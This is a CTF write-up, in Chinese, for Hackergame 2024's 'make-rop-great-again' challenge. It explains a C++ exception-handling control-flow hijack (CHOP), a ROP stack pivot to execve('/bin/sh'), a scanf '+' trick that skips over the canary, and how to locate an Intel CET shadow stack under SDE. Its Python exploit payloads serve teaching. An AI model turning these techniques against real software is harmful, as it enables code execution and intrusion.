


# 新生赛上的零解题

题解作者：[eastXueLian](https://github.com/AvavaAYA)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：binary

- 题目分值：Canary Bypass（250）+ CET Bypass（200）

> 在做题时，你是否遇到过「本地和远程表现不一致」的情况？这种情况是由于 libc 版本、文件权限等不一致，还是其他原因导致的？

「哈哈，新生赛真是太好玩了！」作为一名经验丰富的 CTF 选手，小 E 却沉迷于在新生赛中抢夺一血。

「怎么连基本的栈溢出都没人做了？不对，为什么远程读完输入后直接退出了？」小 E 皱起眉头，重新检查了题目附件的保护设置：

```bash
❯ checksec ./pwn
# ...
    SHSTK:      Enabled
    IBT:        Enabled
```

「后面这两项是什么意思，明明在本地能正常 getshell」，小 E 陷入了沉思。

---

本题有两个小题：

点击下方「打开/下载题目」按钮下载附件。其中 `canary-bypass` 对应第一小题，采用静态编译。`cet-bypass` 对应第二小题，Dockerfile 在附件中已经给出，使用 [Intel Software Development Emulator](https://www.intel.com/content/www/us/en/developer/articles/technical/emulating-applications-with-intel-sde-and-control-flow-enforcement-technology.html) 模拟运行，可以在 [官网](https://www.intel.com/content/www/us/en/download/684897/intel-software-development-emulator.html) 下载最新的 SDE。

- 可以使用 `nc 202.38.93.141 31335` 或 [这个链接](http://202.38.93.141:31336/?token={token}) 访问第一小题。
- 可以使用 `nc 202.38.93.141 31337` 或 [这个链接](http://202.38.93.141:31338/?token={token}) 访问第二小题。

> 如果你不知道 `nc` 是什么，或者在使用上面的命令时遇到了困难，可以参考我们编写的 [萌新入门手册：如何使用 nc/ncat？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/)

[打开/下载题目](files/make-rop-great-again.zip)

## 题解

这道题的主要思路来源于面试时见过的一个问题：「说一下你了解的用户态栈保护」。

在对面提示了「做题时发现本地和远程利用表现不一致」后，笔者把憋到嘴边的「影子栈」三个字又咽了回去😭。因为在笔者当时的认知中，用户态影子栈是需要在程序中用 prctl 系统调用显式开启的。

但在设计上，Intel CET 保护（包括影子栈和 IBT）是对应用程序透明的，正如本题「CET Bypass」小问给出的 [源码](./src/cet-bypass.c) 中并没有显式启用相关保护。

### Canary Bypass

> [!TIP] 
> 第一小问的主要考察点为 CHOP，~~也算押中今年同时举行的另一场大型比赛的题目了🤣~~。

漏洞是 `vuln` 函数中的栈溢出，同时题目是静态编译不存在 `PIE` 保护，在常规情况下直接 ROP 就可以了。

但是又可以注意到源码中有一个简陋的返回地址篡改检查，使用 `try-catch` 异常处理模拟了影子栈功能：

```c
void vuln() {
    __asm__("mov r14, qword ptr [rbp + 8];"
            "mov temp_num, r14;");
    stack_buf[ssp++] = temp_num;
    size_t buf[2];

    for (int i = 0; i < 0x100 / sizeof(size_t); i++) {

        if (scanf("%lu", &temp_num) != 1) {
            while (getchar() != '\n' && getchar() != EOF)
                ;
            i--;
            continue;
        }

        if (temp_num == 0x31337) {
            break;
        }

        buf[i] = temp_num;
    }

    __asm__("mov r14, qword ptr [rbp + 8];"
            "mov temp_num, r14;");
    if (temp_num != stack_buf[ssp - 1])
        throw 1;
}
```

> [!NOTE] 
> 检查程序保护是可以看到 `canary` 的，但是在使用老版本的 `g++` 编译时 `throw` 前不会检查 `canary`（在 `gcc 12` 后已经修复）：
>
> 

来到利用，首先这类 `try-catch` 异常处理题目的常见打法是篡改 `throw` 所在函数的返回地址到目标 `catch` 块对应的 `try` 块中，例如本题 `vuln` 函数 `throw` 后默认情况下会返回到 `0x402310`（即对应 `catch` 块的 `__cxa_begin_catch` 函数后，也可以借此打断点进行调试）并输出 `"Hacker!"`。但是若通过漏洞修改了 `vuln` 函数的返回地址为 `0x401F0E + 1`（即对应 `banner` 函数 `try` 块中的地址），则会进入对应 `catch` 块并打印 `"What?"`。

通过篡改栈上返回地址（或保存在栈底的 rbp）可以实现控制流的劫持，这也是 CHOP 的基本思路。

但是发现题目中没有提供后门函数，事实上现在还是可以 ROP 的，例如通过改返回地址将控制流劫持到 banner 函数中的同时，溢出更多的字节填充到 banner 函数的返回地址后就可以按照普通的栈溢出题来做了。

此外还有一个问题是没有 `"/bin/sh\x00"` 之类的字符串，这里确实可以用常规方法在 ROP 中构造栈迁移，但也可以借助题目中这个简陋的影子栈来完成目标：

1. 完成第一次循环，将返回地址留在 `0x31337000` 上，同时填充 8 字节使迁移后栈对齐：

    ```python
    def send_payload(payload):
        payload_list = [0 for i in range(len(payload) // 8 + 1)]
        for i in range(0, len(payload), 8):
            payload_list[i // 8] = u64_ex((payload[i:])[:8])
        data = b""
        for i in payload_list:
            data += i2b(i)
            data += b" "
        io.send(data + i2b(0x31337) + b"\n")
        io.recvuntil(b"next round has begun.\n")


    io.recvuntil(b"stop reading until I receive the correct one.")
    send_payload(b"a")
    ```

2. 第二次循环中完成栈迁移：

    ```python
    try_addr = 0x0000000000401F0E
    new_stack = 0x31337000
    pop_rdi_ret = 0x0000000000402F7C
    pop_rsi_ret = 0x0000000000404669
    pop_rdx_2_ret = 0x00000000004AF0DB
    pop_rax_ret = 0x0000000000463DA7
    syscall_ret = 0x42EA86
    payload = flat(
        {
            0x00: [0x1111, 0x2222, 0x3333, 0x4444, new_stack],
            0x28: [try_addr + 1, 0xDEADBEEF, 0xCAFECAFE, 0x31337],
        }
    )
    send_payload(payload)
    ```

3. 传入 `"/bin/sh\x00"` 字符串并完成 ROP：

    ```python
    payload = flat(
        {
            0x00: [u64_ex(b"/bin/sh\x00"), 0x2222, 0x3333, 0x4444, new_stack + 0x10],
            0x28: [
                try_addr + 1,
                0x4DE4B0,
                pop_rdi_ret,
                0x31336FE0,
                pop_rsi_ret,
                0,
                pop_rdx_2_ret,
                0x31337010,
                0,
                pop_rax_ret,
                0x3B,
                syscall_ret,
            ],
        }
    )
    send_payload(payload)
    ```

> [!NOTE] 
> 解法的设计也是想说明「粗糙的保护可能反而会带来安全风险」，例如这里的伪·影子栈给栈迁移提供了便利。

完整利用脚本见 [canary_bypass-exp.py](./src/canary_bypass-exp.py)。

### CET Bypass

这道题主要是想介绍一下 Intel CET 提供的影子栈保护，顺带看看新版 gcc 编译 `try-catch` 时更完善的栈保护。

题目中存在后门：通过篡改返回地址为 `banner` 函数 `try` 块内地址，就能调用 `system` 函数，而参数来源于 `banner` 函数的局部变量。

不过来到具体利用上，还需要解决几个问题：

1. `throw` 前检查 `canary`，如此保护，如何溢出？

    如前所述，新版本的 `g++` 会在异常处理中 `throw` 前添加 `canary` 检查。

    对比源码可以发现，两小题对输入的处理不同。本题中的 `scanf` 是可以输入加号 `+` 来绕过的：

    ```c
    scanf("%lu", &(buf[i]));
    ```

2. `system` 的参数如何设置？

    观察源码可以发现 `system` 参数来自 `main` 函数的局部变量，因此通过栈上的溢出也可以实现参数控制。

3. 影子栈在哪里？

    现在可以得到 payload 如下，用常规方法启动程序已经可以完成利用了：

    ```python
    PLACEHOLDER = 0xDEADBEEFCAFE
    BIN_SH = u64(b"/bin/sh\x00")
    TARGET_ADDR = 0x0000000000401913

    send_num = lambda x: io.sendline(b"+" if x == PLACEHOLDER else str(x).encode())

    payload = [
        PLACEHOLDER,
        PLACEHOLDER,
        PLACEHOLDER,
        PLACEHOLDER,
        PLACEHOLDER,
        TARGET_ADDR,
        PLACEHOLDER,
        PLACEHOLDER,
        BIN_SH,
        0x31337,
    ]

    io.recvuntil(b"Please share your lucky number.\n")
    for i in payload:
        send_num(i)
    ```

    但是使用 `sde64 -cet -- /src/cet-bypass` 运行会发现上述利用失败了，这就是影子栈在发挥作用了。

    关于寻找影子栈，可以用传统方法进行调试：

    - 启动程序 `io = process(["../sde/sde64", "-cet", "--", "./cet-bypass"])`
    - 获取程序 pid
    - 附加调试器 `pwndbg ./cet-bypass -ex "attach $(pgrep cet-bypass)"`
    - 根据影子栈中会保存返回地址的特性进行内存搜索 `search -t qword 0x4019e0`

    

    > [!IMPORTANT]
    > 关于影子栈内存权限的设置存在不同实现，Intel SDE 中的可读可写仅供学习与测试。在 Linux 内核中支持的用户态影子栈只允许特殊指令（如 `WRSS`）写入影子栈。

于是可以得到利用脚本 [cet_bypass-exp.py](src/cet_bypass-exp.py)。
